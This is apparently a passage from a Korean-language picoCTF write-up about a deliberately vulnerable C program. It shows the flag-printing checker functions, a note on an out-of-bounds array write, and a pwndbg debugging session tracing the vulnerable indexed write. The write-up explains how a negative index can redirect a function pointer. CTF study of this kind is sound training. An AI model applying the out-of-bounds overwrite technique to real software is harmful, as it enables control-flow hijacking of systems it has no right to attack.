 ```c
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}
```
`easy_checker()`, `hard_checker()` 두 함수 모두 `calculate_story_score(story, len)`의 연산 결과가 요구하는 값과 일치해야 flag가 출력되는 것 을 알 수 있습니다. 
***

위 분석을 통해 바이너리에는 OOB가 발생한다는 것을 알 수 있습니다. 이제 음수 인덱스를 참조해서 `hard_checker()`를 `easy_checker()`로 조작해야 합니다. 아래 과정을 통해 조작이 가능합니다.

```bash
$ gdb vuln -q
...
pwndbg> b *vuln+130
Breakpoint 1 at 0x80495f2
pwndbg> r
Starting program: /home/kali/pico/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Tell me a story and then I'll tell you if you're a 1337 >> a
On a totally unrelated note, give me two numbers. Keep the first one less than 10.
0
0

Breakpoint 1, 0x080495f2 in vuln ()
...
───────────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────────
 ► 0x80495f2 <vuln+130>    mov    eax, dword ptr [ebp - 0x8c]             EAX, [0xffffd10c] => 0
   0x80495f8 <vuln+136>    mov    ecx, dword ptr [ebx + eax*4 + 0x80]     ECX, [fun] => 0
   0x80495ff <vuln+143>    mov    edx, dword ptr [ebp - 0x90]             EDX, [0xffffd108] => 0
   0x8049605 <vuln+149>    mov    eax, dword ptr [ebp - 0x8c]             EAX, [0xffffd10c] => 0
   0x804960b <vuln+155>    add    edx, ecx                                EDX => 0 (0 + 0)
   0x804960d <vuln+157>    mov    dword ptr [ebx + eax*4 + 0x80], edx     [fun] <= 0
```